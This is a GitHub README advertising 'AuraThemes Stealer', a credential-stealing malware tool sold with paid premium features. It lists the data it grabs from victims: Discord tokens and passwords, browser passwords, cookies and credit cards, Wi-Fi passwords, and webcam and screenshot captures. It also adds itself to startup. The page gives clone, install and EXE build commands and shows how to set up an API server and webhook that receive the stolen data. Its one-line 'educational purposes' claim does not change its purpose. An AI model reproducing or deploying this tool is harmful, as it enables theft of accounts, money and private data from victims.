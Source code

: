 # <a id="home"></a> AuraThemes - Stealer

## Littleraly One Of The Best Stealer

---

#### [Discord](https://discord.gg/5BJa778F7B) - [Build](#salepute) - [Turorial](#tutorial) 

AuraThemes Stealer: Steal discord tokens and get privileged access!

Our powerful AuraThemes Stealer is a tool designed to help get Discord tokens to access user accounts. With the built-in API, you don't run the risk of your Webhook disappearing. <br>
<br>

the best version of a (stealer), in this case it is AuraThemes, with the best form of an OP version

✅: Premium Features (20€ - Join Discord)

## Features
- Grabs Discord Token
- Discord Password (even when it's changed)
- IP Address (Public)
- Discord New Email (when Changed)
- Discord New Password (when Changed)
- Alert When MFA is Enabled
- Alert When MFA is Disabled
- Mac Address (✅)
- UUID (✅)
- Windows Product Key (✅)
- Local IP (✅)
- Wifi Passwords (✅)
- Bot Builder (✅)
- Alert When Paypal Is Added (✅)
- Credit Card When Added (✅)
- Browsers Passwords & Cookies (✅)
- More PC Infos (✅)
- Webcam & Screenshot (✅)
- Steam (✅)
- Add To Startup (✅)
- AutoFill (✅)
- Browsers Credit Cards (✅)
- Stored Discord Backup Codes (✅)
- BookMarks (✅)
- Browsers History (✅)
- Bypass Discord Token Protection (✅)
- Minecraft Grabber (✅)
- In Dev And More...

## <a id="salepute"></a> Free Version Installation

When Done: 
```bash
git clone https://github.com/k4itrun/AuraTokenGrabber
```
```bash
cd AuraTokenGrabber
```
```bash
npm i -g
```
```bash
Setup Your desktopServer/server.js in repl.it
In the desktopClient/client.js replace https://yourapi.com by your api
```
```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```
```bash
node desktopClient/client.js
```
```bash
build EXE: npm run build
```
---
### THIS SCRIPT was made for Educational purposes
[Home](#home)

---
### TUTORIAL USE Mode of use

[Tutorial](#tutorial)

> Create a new project on repl.it to create the API server. This is where you will receive the data sent by the client. (Just copy the contents of [Server api](https://raw.githubusercontent.com/k4itrun/AuraTokenGrabber/main/desktopServer/server.js) and paste it into your repl.it index file). Once you do that, you will have the receiving API set up.

> Add your webhook URL in

```js
12 | x = { //added new webhook URL
    webhookURL: "URL"
    }
```

> Now, in the client section, go to (client) and change line 10 in client.js file:

```js
10 | apiurl = "http://yourapi.com" // Put Your API URL Here in desktopClient/client.js
```

> Replace it with the URL of your previously created API server on repl.it.

> With this, everything should be set up correctly, and it should work by running `node client.js`.

## README Spanish soon...